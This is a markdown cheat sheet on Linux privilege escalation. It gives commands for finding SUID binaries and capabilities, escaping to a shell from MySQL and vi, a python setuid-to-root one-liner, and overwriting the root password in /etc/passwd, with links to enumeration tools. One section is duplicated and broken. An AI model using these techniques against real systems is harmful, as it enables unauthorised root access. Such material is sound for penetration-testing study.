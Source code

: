 # Linux Privilege Escalation

## Find SUID binaries

SUID (Set owner User ID up on execution) is a special type of file permissions given to a file. 

Normally in Linux/Unix when a program runs, it inherit’s access permissions from the logged in user. SUID is defined as giving temporary permissions to a user to run a program/file with the permissions of the file owner rather that the user who runs it. 

In simple words users will get file owner’s permissions as well as owner UID and GID when executing a file/program/command.

```bash
find / -perm -u=s -type f 2>/dev/null
```

Get a list of uncommon SUID binaries:

[https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py](https://raw.githubusercontent.com/Anon-Exploiter/SUID3NUM/master/suid3num.py)

## Spawn shell from MySQL

If there is a MYSQL daemon running, and you can get into, you can get a shell as the same user as mysql is running:

```txt
If there is a MYSQL daemon running, and you can get into, you can get a shell as the same user as mysql is running:

```txt
mysql> \! /bin/sh
```

## Change root password

If you have access to `/etc/passwd` file, you can easily change any password by first generating a password:

```bash
openssl passwd -c $NEWPASS
```

And then put it into file like `root:$NEWCYPHERPASS:`

## Using `vi`

If you can execute `vi` as root, just enter `vi` and then type `:!/bin/bash`

## Containers

If you belong to `lxd` or `lxc` group, you can become root:

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)

## Binaries with capabilities

```bash
getcap -r / 2>/dev/null
```

If `python3.8` has capabilities:

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

[https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities)

## All-in-one scripts

* [https://github.com/rebootuser/LinEnum](https://github.com/rebootuser/LinEnum)
* [https://github.com/diego-treitos/linux-smart-enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

